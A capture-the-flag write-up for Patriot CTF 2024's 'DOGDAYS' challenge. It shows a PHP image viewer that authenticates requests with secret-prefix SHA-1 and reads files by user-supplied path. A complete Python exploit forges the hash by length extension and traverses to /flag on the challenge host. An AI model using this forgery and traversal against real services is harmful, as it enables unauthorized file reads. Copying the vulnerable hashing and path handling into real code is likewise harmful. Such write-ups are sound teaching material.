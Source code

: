 # DOGDAYS Patriot CTF 2024
@phulelouch
### Problem:
```
<?php
	$pic = $_GET['pic'];
	$hash = $_GET['hash'];
	if(sha1("TEST SECRET1".$pic)==$hash){
		$imgdata = base64_encode(file_get_contents("pupper/".str_replace("\0","",$pic)));
		echo "<!DOCTYPE html>";
		echo "<html><body><h1>Here's your picture:</h1>";
		echo "<img src='data:image/png;base64,".$imgdata."'>";
		echo "</body></html>";
	}else{
		echo "<!DOCTYPE html><html><body>";
		echo "<h1>Invalid hash provided!</h1>";
		echo '<img src="assets/BAD.gif"/>';
		echo "</body></html>";
	}
	// The flag is at /flag, that's all you're getting!
?>

```

### Way of thinking :
This is a sha1 length extension attack. I already know this vulnerability before so I realize it 

I won't try to explain it because LiveOverflow's video explain it better than anyone else. And the situation is the same as the video.
https://www.youtube.com/watch?v=6QQ4kgDWQ9w 

But in this case we just need to get to ../../../../../../../flag

###  Solution:

The code is in dogdays_exploit.py

![alt text](<Screenshot 2024-09-23 at 4.03.15 PM.png>)

### Reference:

https://github.com/nicolasff/pysha1
https://github.com/amlweems/hexpand

This code look cleaner than mine

```
import httpx
import HashTools
from os import urandom
import urllib.parse
import re
import base64

URL = "http://chal.competitivecyber.club:7777"

class BaseAPI:
    def __init__(self, url=URL) -> None:
        self.c = httpx.Client(base_url=url)
        self.pic = ""
        self.hash = ""
    def triggerlfi(self):
        print(f'[x] pic : {self.pic}')
        print(f'[x] hash : {self.hash}')
        resp = self.c.get(f'{URL}/view.php?pic={self.pic}&hash={self.hash}')
        parsed = re.findall(r"base64,(.*)'>", resp.text)
        print(base64.b64decode(parsed[0]).decode())
        # print(f'{URL}/view.php?pic={self.pic}&hash={self.hash}') 
    
        
    def attackHash(self, payload: str):
        original_data = b"2.png"
        sig = "6e52c023e823622a86e124824efbce29d78b2e73"
        # attack
        append_data = payload.encode()
        magic = HashTools.new("sha1")
        new_data, new_sig = magic.extension(
            secret_length=12, original_data=original_data,
            append_data=append_data,
            signature=sig
        )
        new_data_hex = new_data.hex()
        self.pic = urllib.parse.quote(bytes.fromhex(new_data_hex))
        self.hash = new_sig
        
class API(BaseAPI):
    ...

if __name__ == "__main__":
    api = API()
    api.attackHash("../../../../../../flag")
    api.triggerlfi()
```